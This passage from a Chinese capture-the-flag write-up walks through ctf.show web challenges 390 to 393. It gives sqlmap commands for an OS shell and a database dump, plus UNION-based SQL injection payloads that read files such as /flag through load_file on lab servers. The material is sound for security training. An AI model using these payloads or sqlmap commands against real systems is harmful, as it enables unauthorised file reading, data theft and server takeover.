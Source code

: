 ```python

```

![](https://i.loli.net/2021/10/21/Y8rdHGDCFXsQUvn.png)

后续同388

不过尝试的时候发现传txt再包含的话不太行--，又改成zip格式才成

## 390 sql注入 --os-shell

看网站url，改为用参数id控制了：`http://9b0ead93-149f-465a-9c86-2dacc9b75333.challenge.ctf.show/page.php?id=3`

sqlmap --os-shell

![](https://i.loli.net/2021/10/21/dH3QSFGqf5amKoJ.png)



## 391、392 sql注入 

注入点在`url/search.php?title=1`

继续sqlmap或者手注

391 flag在alsckdfy/check.php；392flag在根目录

```
/search.php?title=1' union select 1,substr((select load_file('/var/www/html/alsckdfy/check.php')),1,255),3 limit 0,1%23
```

![](https://i.loli.net/2021/10/21/EbWaysgBi6S1tAw.png)

```
/search.php?title=1' union select 1,substr((select load_file('/flag')),1,255),3 limit 0,1%23
```

![](https://i.loli.net/2021/10/21/LhHsXmKIlT5BU4v.png)

## 393 堆叠

在最下面出现一个搜索引擎
![](https://i.loli.net/2021/10/21/u1DRkeN8ixaHQlT.png)
选择一个会出现：![](https://i.loli.net/2021/10/21/YneZ7Lwhz2SAGbk.png)

应当是把搜索引擎的链接放到了数据库里，不同链接对应不同的id

sqlmap一把梭，看一下数据库

```
sqlmap -u "http://808a6a22-0a64-443b-a58c-10ec2673c923.challenge.ctf.show/search.php?title=1" --dbms='mysql' --batch --dump
```

